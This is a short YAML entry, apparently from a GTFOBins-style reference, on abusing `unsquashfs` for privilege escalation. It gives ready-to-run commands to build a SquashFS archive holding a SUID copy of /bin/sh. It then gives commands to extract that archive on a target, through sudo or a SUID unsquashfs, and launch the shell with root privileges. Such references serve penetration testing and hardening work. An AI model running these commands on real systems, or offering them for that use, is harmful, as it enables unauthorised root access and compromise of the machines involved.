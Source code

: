 ```yaml
---
description: |
  `unsquashfs`, the utility used to extract the contents of SquashFS file systems, preserves the permissions and ownership information of files and directories. This includes the suid (set user ID) and sgid (set group ID) bits, which can be set on executable files to allow them to be run with the privileges of the file owner or group owner, respectively. Prepare an archive beforehand with the following commands as root:

  ```
  cp /bin/sh .
  chmod +s sh
  mksquashfs sh x.sqfs
  ```

  Extract it on the target, then run the SUID shell as usual (omitting the `-p` where appropriate).
functions:
  sudo:
    - code: |
        sudo unsquashfs ./x.sqfs
        ./squashfs-root/sh -p
  suid:
    - code: |
        unsquashfs ./x.sqfs
        ./squashfs-root/sh -p
---
```

